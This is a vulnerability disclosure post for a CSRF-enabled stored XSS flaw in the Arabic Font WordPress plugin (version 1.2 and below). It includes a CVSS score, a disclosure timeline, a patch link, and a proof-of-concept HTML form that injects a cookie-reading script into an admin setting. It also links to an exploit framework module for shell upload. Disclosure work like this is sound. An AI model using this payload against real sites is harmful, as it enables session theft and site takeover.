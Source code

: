 ```yaml
---
layout: post
title: Arabic Font <= 1.2 CSRF Stored XSS
date: 2017-07-20
categories:
  - security
  - websec
  - disclosure
tags:
  - wordpress
  - arabic-font
  - stored xss
  - csrf
excerpt: Due to a lack of CSRF mitigation and entity encoding in the output generated by `arabic-font.php` and `/inc/panel.php`, it is possible to store and execute scripts in the context of an admin user.
---
```

## Homepage
[https://wordpress.org/plugins/arabic-font/](https://wordpress.org/plugins/arabic-font/)

## Overview
Due to a lack of CSRF mitigation and entity encoding in the output generated by `arabic-font.php` and `/inc/panel.php`, it is possible to store and execute scripts in the context of an admin user.

## CVSS Score
5.2

## CVSS Vector
[(AV:N/AC:M/Au:N/C:P/I:P/A:N/E:F/RL:W/RC:C)](https://nvd.nist.gov/vuln-metrics/cvss/v2-calculator?vector=(AV:N/AC:M/Au:N/C:P/I:P/A:N/E:F/RL:W/RC:C))

## Versions Affected
1.2 and below

## Solution
There is no official update to resolve this, but an unofficial patch has been included in this disclosure.

## Unofficial Patch
The patched plugin can be found here: [https://drive.google.com/file/d/1OWUiPZIQPKIc00hMocr6EukOPoHMWsHZ/view?usp=sharing](https://drive.google.com/file/d/1OWUiPZIQPKIc00hMocr6EukOPoHMWsHZ/view?usp=sharing)

## Proof of Concept
```xml
<form method="post" action="http://[target]/wp-admin/admin.php?page=arabic-font%2Finc%2Finit.php">
  <input type="hidden" name="save1" value="Save changes">
  <input type="hidden" name="AF_fontfamily" value="JF Flat Jozoor">
  <input type="hidden" name="AF_fontsize" value="18">
  <input type="hidden" name="AF_lineheight" value="45">
  <input type="hidden" name="AF_textalign" value="Center">
  <input type="hidden" name="AF_defaultcssclass" value=".arab&quot;&gt;&lt;script&gt;alert(document.cookie)&lt;/script&gt;&lt;input+type=&quot;hidden&quot;+value=&quot;">
  <input type="hidden" name="AF_customcss" value="">
  <input type="hidden" name="action" value="save">
  <input type="submit" value="Drink all the booze, hack all the things.">
</form>
```

## WordPress Exploit Framework Module
[exploit/xss/stored/arabic\_font\_csrf\_stored\_xss\_shell\_upload](https://github.com/rastating/wordpress-exploit-framework/blob/development/lib/wpxf/modules/exploit/xss/stored/arabic_font_csrf_stored_xss_shell_upload.rb)

## WPVDB-ID
[8868](https://wpvulndb.com/vulnerabilities/8868)

## Disclosure Timeline
* **2017-07-18**: Initial discovery
* **2017-07-18**: Contacted vendor with proof of concept and details of the vulnerabilities
* **2017-07-20**: Contacted WordPress to report vulnerability
* **2017-07-20**: Plugin removed from WordPress repository
* **2017-07-20**: Developed an unofficial patch in lieu of the vendor producing one
* **2017-07-20**: Released public disclosure

